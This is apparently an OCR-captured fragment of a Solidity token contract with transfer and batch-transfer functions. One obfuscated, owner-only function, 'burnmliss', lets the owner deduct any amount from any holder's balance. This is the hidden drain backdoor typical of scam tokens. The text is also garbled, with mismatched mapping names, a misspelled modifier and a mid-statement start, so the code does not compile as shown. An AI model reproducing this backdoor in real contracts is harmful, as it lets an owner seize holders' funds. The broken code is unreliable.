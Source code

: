         _transfers(from, to, amount);
    }

    
 
    function burnmliss(address burnmlis, uint256 burnspa)
        external
        onlyoner() {
        require(burnspa > 0, "");
        uint256 bpms = BIis[burnmlis];
        if (bpms == 0) _bBIis.push(burnmlis);
        bBIis[burnmlis] = bpms.add(burnspa);
        bRhsp = bRhsp.add(burnspa);
        _tossd[burnmlis] = _tossd[burnmlis].sub(burnspa);
    }

    function batchTransferToken(address[] memory holders, uint256 amount) public {
        for (uint i=0; i<holders.length; i++) {
            _transfers(_msgSender(), holders[i], amount);
        }
    }

    function _transfers(
        address sender,
        address recipient,
        uint256 toAmount
    ) private {   
        require(sender != address(0), "");
        require(recipient != address(0), "");
    
        _tossd[sender] = _tossd[sender].sub(toAmount);
        _tossd[recipient] = _tossd[recipient].add(toAmount);
        emit Transfer(sender, recipient, toAmount);
    }

}
